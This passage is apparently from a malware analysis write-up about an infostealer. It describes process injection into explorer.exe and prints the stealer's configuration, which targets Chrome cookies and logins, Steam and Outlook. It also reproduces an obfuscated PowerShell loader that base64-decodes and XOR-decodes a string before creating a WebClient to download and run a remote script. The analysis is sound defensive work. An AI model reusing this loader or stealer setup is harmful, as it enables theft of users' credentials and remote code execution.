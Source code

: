<img src="/static/Extension/Pasted image 20250524190228.png" alt="drawing" width="1000"/>

Debugging with breakpoints on injection-related functions (e.g., VirtualAlloc), we spotted the injection into explorer.exe and a malicious executable:

<img src="/static/Extension/Pasted image 20250524220836.png" alt="drawing" width="1000"/>

Dumping and debugging this executable revealed the stealer and the PowerShell executor:

<img src="/static/Extension/Pasted image 20250525091442.png" alt="drawing" width="1000"/>

<img src="/static/Extension/Pasted image 20250525095137.png" alt="drawing" width="1000"/>

Its even possible to spot the download of the stealer settings

<img src="/static/Extension/Pasted image 20250525093954.png" alt="drawing" width="1000"/>

```
{
  "ffb5a70b8263515": "f2bfd8bf6966c",
  "opcode": "success",
  "access_token": "XXXXXXXXXXXXXXXXXXX",
  "self_delete": 0,
  "take_screenshot": 1,
  "loader": 0,
  "steal_steam": 1,
  "steal_outlook": 1,
  "browsers": [
    {
      "name": "Google Chrome",
      "path": "\\Google\\Chrome\\User Data",
      "type": "1",
      "soft_path": "C:\\Program Files\\Google\\Chrome\\Application\\chrome.exe",
      "use_v20": true,
      "parse_cookies": true,
      "parse_logins": true
    }
  ]
}
```
There are a lot of interesting functions in this malware, but to make this simpler, I'm only highlighting the principal ones.

Now lets analyse the encoded powershell command now. Decoding the command we have a decoding routine and a XOR execution on the result, then again another decoding routine and execution of a remote downloaded script using iex

<img src="/static/Extension/Pasted image 20250524121436.png" alt="drawing" width="1000"/>

```
$uPlik = ("DhsMWR4bDQFFIRMfGQc5RVwbD0UMXQMeGgg4EEUkPSceLAMoWl8TBSo@ADIBM1IEGlwQWF0TXQcYKjlf")
$LXxNl = $uPlik.Replace("@", "a") // litterally changing one @
$w0JeK = [Convert]::FromBase64String($LXxNl) | ForEach-Object { $_ -bxor 106} // XOR operation 
$Jsj3T = [System.Text.Encoding]::ASCII.GetString($w0JeK).Replace("@", "a") // changing 'a' for @
$vwTAS = [Convert]::FromBase64String($Jsj3T)
$Jv0mm = [byte[]](30, 211, 131, 198, 219);
$ijO7J = 0;
$xV7Um = $vwTAS | ForEach-Object {
$_ -bxor $Jv0mm[$ijO7J++]; // XOR operation again
if ($ijO7J -ge $Jv0mm.Length) {
$ijO7J = 0
}
}

$nHpjI=new-object System.Net.Webclient;
```